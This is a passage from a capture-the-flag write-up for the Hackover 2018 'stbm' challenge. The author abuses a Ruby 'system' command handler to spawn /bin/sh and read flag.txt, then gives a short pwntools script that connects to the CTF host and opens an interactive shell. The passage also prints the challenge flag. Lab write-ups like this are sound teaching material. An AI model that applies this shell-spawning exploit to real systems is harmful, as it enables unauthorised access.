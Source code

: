 Yeah! So let's read the flag:

```  
> system ls  
cant_bus.rb  flag.txt     stbm

> system cat flag.txt  
(hang)  
```

Wait, what? Well... we've done goofed! In this case we get to that line:

```  
command.call(parameter)  
```

which gets one parameter - hence it waits for input instead of reading the
file.

We can quickly verify this:

```  
> system ls  
cant_bus.rb  flag.txt     stbm

> system ls ../  
cant_bus.rb  flag.txt     stbm  
```

But that's not exactly an issue, since we can drop `/bin/sh` and do anything
we want from there:

```  
> system '/bin/sh'  
~ $ ^[[46;5Rls  
ls  
cant_bus.rb  flag.txt     stbm  
~ $ ^[[46;5Rcat flag.txt  
cat flag.txt  
hackover18{54fda39cd95ed88a5446953dbdf36a5d}  
~ $ ^[[46;5R  
```

BTW, I have automated this a bit using Python and the great `pwntools`
library:

```python  
from pwn import *

r = remote('stbm.ctf.hackover.de', 1337)

r.send("switch_module FirmwareCommands\n")  
r.send("update test context=Kernel checksum=555 password=lol\n")  
r.send("system /bin/sh\n")  
# ^-- since I'm lazy, just wait for "Checksum Invalid (...)"  
#     before proceeding :-P  
r.interactive()  
```

**Flag:** `hackover18{54fda39cd95ed88a5446953dbdf36a5d}`

That was a pretty neat task, especially given I have no knowledge of Ruby
whatsoever; I relied solely on the docs ;-)